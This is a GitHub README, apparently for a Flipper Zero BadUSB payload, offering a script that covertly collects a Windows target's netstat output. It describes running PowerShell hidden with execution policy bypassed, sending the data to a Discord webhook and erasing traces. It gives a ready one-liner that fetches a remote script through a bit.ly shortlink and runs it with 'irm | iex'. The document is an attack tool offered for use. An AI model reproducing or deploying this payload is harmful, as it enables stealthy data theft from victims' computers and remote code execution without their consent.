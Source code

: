 # Windows netstat - BadUSB ✅

A script used to stole target netstat status.


[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2Faleff-github%2Fmy-flipper-shits&count_bg=%233C3C3C&title_bg=%233C3C3C&icon=linux.svg&icon_color=%23FFFFFF&title=views&edge_flat=false)](https://github.com/aleff-github/my-flipper-shits)

**Category**: Net, Exfiltration

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/logo-repository-2_0.gif" width="600" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

This script will stole target netstat status.

Opens PowerShell hidden, grabs netstat status, saves as a cleartext in a variable and exfiltrates info via Discord Webhook.

Then it cleans up traces of what you have done after.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke the indicated commands 
* Invoke-WebRequest will be entered in the Run Box to send the content

### Settings
Put 1 on the function that you want to active, else 0.
Functions available:
- default (*or simple 'netstat' command*)
- routing_table **$r**
- listening_canonical **$lc**
- listening_numerical **$ln**
- all_canonical **$ac**
- all_numerical **$an**
- offload **ot**
- proto **$p "\<protocol>"**
    - *In this option you must put the protocol that you want to monitor, for example $proto="TCP" if you want to monitor TCP, else leave blank, so $proto="".*

```powershell
powershell -w h -ep bypass $discord='';$d='1';$r='1';$lc='1';$ln='1';$ac='1';$an='1';$o='1';$p='TCP';irm bit.ly/WindowsNetstatScript1 | iex
```

You must put your Discord webhook into the variable $discord='\<your-webhook-here>'

## Credits

<h2 align="center"> Aleff :octocat: </h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/alessandro_greco_aka_aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/instagram.png?raw=true width="48" height="48" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>Linkedin
    </td>
  </tr>
</table>
</div>